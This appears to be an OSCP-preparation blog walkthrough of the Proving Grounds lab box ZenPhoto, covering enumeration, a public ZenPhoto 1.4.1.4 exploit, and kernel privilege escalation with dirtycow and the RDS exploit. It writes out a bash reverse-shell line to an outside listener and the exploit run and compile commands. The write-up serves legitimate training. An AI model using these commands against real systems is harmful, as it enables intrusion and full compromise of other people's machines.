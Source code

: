 ```yaml
---
title: ZenPhoto
date: 2025-04-14
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough]     # TAG names should always be lowercase
media_subpath: /assets/img/posts/2025-04-14-zenphoto/
---
```

## Introduction

In this walkthrough we will be solving Proving Grounds Intermediate Linux box ZenPhoto. Let’s start ..

## Nmap

### TCP Scan
Run a quick nmap scan to see open ports on our target:

```bash
sudo nmap -sV $IP --open
```
![TCP Scan](image1.png)
_TCP Scan_

### UDP Scan
Run UDP Scan to top 100 ports to not to miss any valuable service.

```bash
sudo nmap -sU -F $IP
```
![UDP Scan](image2.png)
_UDP Scan_
No valuable UDP ports are identified.

### Full Nmap Scan
Run a full Nmap scan while you are interacting with previously identified services.
```bash
sudo nmap -sV -sC -p- $IP -Pn -n --open 
```
## Services
### Port 22
We usually skip OpenSSH.
### Port 23
Searching for public exploits `searchsploit CUPS`
![searchsploit command](image3.png)
Nothing very interesting comes to attention.
### Port 3306
Trying to connect to MySQL service using `root` and `no password` says our host is now allowed to connect to this service.
```bash
mysql -h $IP -u root --ssl=0
```
![mysql](image4.png)
## Web
### Port 80
- Searching for public exploits `searchsploit apache 2.2.14` reveals:
  ![searchsploit](image5.png)
- Accessing the web page it shows **Under Construction** which means this is a potential point of further investigation.
- Directory Fuzzing
```bash
gobuster dir -u http://$IP/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 42
```
![gobuster](image6.png)
Reading the source code of **\test** directory we can see **zenphoto version 1.4.1.4**

## Exploitation
I am gonna search for public exploits for this version of commercial web application ZenPhoto
```bash
searchsploit zenphoto 1.4.1.4
```
![zenphoto](image7.png)
**That's it!** We found a public exploit for this version.
```bash
php 18083.php $IP /test/
```
![shell](image8.png)
```bash
bash -c 'bash -i >& /dev/tcp/192.168.45.237/443 0>&1'
```
I got reverse shell.
![reverse shell](image9.png)

## Privilege Escalation
When I am doing privilege escalation on a Linux Box, I follow the following checklist:
- **Situational Awareness** - get as much information as possible about your user, target machine (`id`, `whoami`, `uname  -a`)
- **Exposed Confidential Information** (`env`, `.bashrc`)
- **Password Authentication Abuse** - check permissions on `/etc/passwd` and `/etc/shadow`
- **Sudo** (`sudo -l`)
- **SUID/SGID**
- **Capabilities**
- **Cron Jobs**
- **Hunting for sensitive information** in `.txt.`, `.php`, `.conf` files
- **Kernel Exploits**

Under `/var/www/test/zp-data` I found `.conf` file where credentials for database were stored, you can find them also running [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
![conf file](image10.png)
Then I tried to connect to MySQL database
```bash
mysql -h 127.0.0.1 -u root -p
```
![mysql connection](image11.png)
```sql
show databases;
select zenphoto;
```
Digging in database I found probably encrypted credentials of admin user.
![database](image12.png)

Then I switched to mysql database:
```sql
select mysql;
```
![mysql database](image13.png)
Here are kept credentials that are used to connect to database service, but nothing useful find here either.

I tried to crack it in hope it is a hash, with hashcat and [Crackstation.net](https://crackstation.net/) but that didn't work.

I tried nearly everything in my checklist except for Kernel exploits and decided to take a closer look of linpeas.sh output, as linpeas.sh simultaneously runs Linux Exploit Suggester we actually can find kernel exploits there. I found two interesting candidates:
![kernel](image14.png)
> Pay attention to they are labeled as highly-probable privilege escalation paths.
{: .prompt-warning}

Let's run them:
1. `dirtycow`
   I compiled exploit on the target machine
   ```bash
  gcc 40839.c -o exploit
   ```
   ![dirtycow](image15.png)
2. `rds`
  [exploit](https://www.exploit-db.com/exploits/15285)
  ```bash
  gcc 15285.c -o exploit
  ```
  ![rds](image16.png)
  it worked now.

**Now we are root!**

## Mitigation
- **Upgrade ZenPhoto**: The oldest secure version is 1.5.8 (latest is recommended).
- **Update Linux**
